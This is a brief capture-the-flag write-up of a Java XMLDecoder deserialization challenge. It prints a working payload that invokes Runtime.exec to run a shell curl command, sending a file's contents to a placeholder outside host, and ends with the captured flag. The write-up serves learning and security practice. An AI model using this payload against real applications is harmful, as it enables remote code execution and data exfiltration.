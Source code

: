 ## Web 100 - SignServer

There was a web page that let us upload any document, signs it and returns
serialized java object in the xml format. Then you can submit back that xml to verify.

Sample signed document looks like below
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
</java>
```

I thought uploading custom serialized code would do the job.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
 <object class="java.lang.Runtime" method="getRuntime">
     <void method="exec">
         <array class="java.lang.String" length="3">
             <void index="0">
              <string>/bin/sh</string>
             </void>
             <void index="1">
              <string>-c</string>
             </void>
             <void index="2">
              <string>curl <ip>:port/c.php?c=$(cat flag)</string>
             </void>
         </array>
     </void>
 </object>
</java>

```

```
flag{ser1l1azati0n_in_CTF_is_fUN}
```
